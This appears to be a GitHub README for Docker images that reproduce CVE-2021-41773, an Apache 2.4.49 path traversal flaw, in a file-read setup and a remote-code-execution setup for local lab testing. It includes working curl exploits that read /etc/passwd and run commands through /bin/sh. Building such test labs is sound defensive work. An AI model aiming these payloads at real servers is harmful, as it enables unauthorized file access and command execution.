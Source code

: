 # Vulnerable docker images for CVE-2021-41773 Apache path traversal

This vulnerabiltiy *only* applies to version 2.4.49 that have specific non-default configs. In certain situations this can result in either file read or code execution.

![tweet](./img/ptswarm.png)
[https://twitter.com/ptswarm/status/1445376079548624899](https://twitter.com/ptswarm/status/1445376079548624899)

## Vulnerable file read config

Containers can be pulled directly from Docker Hub using

```docker pull blueteamsteve/cve-2021-41773:no-cgid```

and executed using

```docker run -dit -p 8080:80 blueteamsteve/cve-2021-41773:no-cgid```

The Apache logs can be viewed using below, or just exlude the "-dit" from the above run command to stream stdio
```docker logs <container-id>```

### PoC for file read

```curl http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd```

## Vulnerable RCE config

Containers can be pulled directly from Docker Hub using

```docker pull blueteamsteve/cve-2021-41773:with-cgid```

and executed using

```docker run -dit -p 8080:80 blueteamsteve/cve-2021-41773:with-cgid```

The Apache logs can be viewed using below, or just exlude the "-dit" from the above run command to stream stdio
```docker logs <container-id>```

### PoC for RCE

```curl 'localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' -d 'A=|echo;id'```

## Build custom docker containers

Modify and build your own versions using the dockerfile and template httpd.conf files in the subdirectories

- Use ./no-cgi for the config vulnerable to file read
- Use ./with-cgi for the config vulnerable to code execution

